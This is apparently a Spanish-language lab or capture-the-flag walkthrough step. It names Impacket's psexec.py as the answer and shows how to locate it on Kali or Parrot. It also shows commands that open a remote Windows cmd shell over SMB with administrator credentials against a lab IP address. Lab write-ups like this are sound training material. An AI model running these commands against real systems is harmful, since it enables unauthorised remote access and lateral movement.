 🌠 **Respuesta**: `psexec.py`

### 📌 Explicación:

Dentro de la suite de herramientas **Impacket**, `psexec.py` es una utilidad poderosa que permite ejecutar comandos de forma remota en un sistema Windows y obtener una shell interactiva, utilizando SMB y credenciales válidas.

🧪 Sintaxis:

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:password@10.129.183.178
```

Esto iniciará una shell tipo `cmd.exe` remota si las credenciales son correctas.

![](../img/16eca84117c482390bad0813ac6504d0.png)

## 📦 ¿Cómo conseguir `psexec.py`?

### 🔹 Ya viene con Kali Linux o Parrot

Busca si lo tienes ya instalado con:

```bash
locate psexec.py
```

Si tienes Kali o Parrot, normalmente lo tendrás en:

```bash
/usr/share/doc/python3-impacket/examples/psexec.py
```

Entonces ejecútalo así:

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.183.178
```

Si te pide contraseña, introdúcela cuando la solicite.
